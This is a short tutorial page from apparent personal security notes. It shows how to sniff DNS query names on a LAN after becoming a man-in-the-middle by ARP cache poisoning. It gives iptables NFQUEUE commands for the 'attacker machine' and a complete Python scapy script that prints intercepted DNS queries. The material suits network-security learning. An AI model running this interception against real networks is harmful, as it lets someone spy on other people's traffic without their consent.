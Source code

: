 ```yaml
---
title: "DNS request sniffing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can sniff the DNS Question Record's QNAME field.  
I am using netfilterqueue here, but it could be done without it as well because we are not modifying any packets on the fly, we are only inspecting.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jwever.bitbucket.io/lan/exploitation/mitm/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  


```python
import netfilterqueue
import scapy.all as scapy


def process_packet(packet):
    if packet.get_payload:
        try: scapy_packet = scapy.IP(packet.get_payload())
        finally:

            if scapy_packet:
                if scapy_packet.haslayer(scapy.DNSQR):
                    qname = scapy_packet[scapy.DNSQR].qname
                    print(qname)

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
